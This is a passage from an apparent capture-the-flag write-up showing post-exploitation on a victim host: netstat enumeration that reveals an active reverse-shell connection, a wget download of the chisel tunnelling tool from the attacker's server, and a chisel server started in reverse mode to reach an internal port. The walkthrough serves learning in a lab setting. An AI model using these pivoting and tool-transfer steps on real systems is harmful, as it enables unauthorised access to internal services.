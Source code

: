 Doing some manual enumeration we discover port `8080` which wasn't showed as up in the intial nmap scan:

```bash
jenkins@dev1:~$ netstat -antup
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    286 10.150.150.38:58264     10.66.69.69:6969       ESTABLISHED 636/bash            
tcp6       0      0 :::30609                :::*                    LISTEN      467/java            
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       1      0 10.150.150.38:30609     10.66.69.69:48350      CLOSE_WAIT  467/java
```

# [](header-1)Port forwarding.

We transfer [chisel](https://github.com/jpillora/chisel/releases) tool to the victim machine to do the port forwarding.

```bash
jenkins@dev1:/tmp$ wget http://10.66.66.69:6971/chisel
--2020-07-29 11:04:48--  http://10.66.69.69:6971/chisel
Connecting to 10.66.69.69:6971... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3295912 (3.1M) [application/octet-stream]
Saving to: ‘chisel’

chisel                                     100%[========================================================================================>]   3.14M   230KB/s    in 14s     

2020-07-29 11:05:02 (233 KB/s) - ‘chisel’ saved [3295912/3295912]

jenkins@dev1:/tmp$
```

Setting up the chisel server on the attacking machine:

```bash
└─$ ./chisel server -port 7171 --reverse                                                                                                                              127 ⨯
2021/09/08 21:49:35 server: Reverse tunnelling enabled
2021/09/08 21:49:35 server: Fingerprint DHQvfo/V5XH2fPvjE630ikAnWDP3/GApoK5fkC/8ryk=
2021/09/08 21:49:35 server: Listening on http://0.0.0.0:7171
```

And then wer fire it up as client mode on the victim machine:
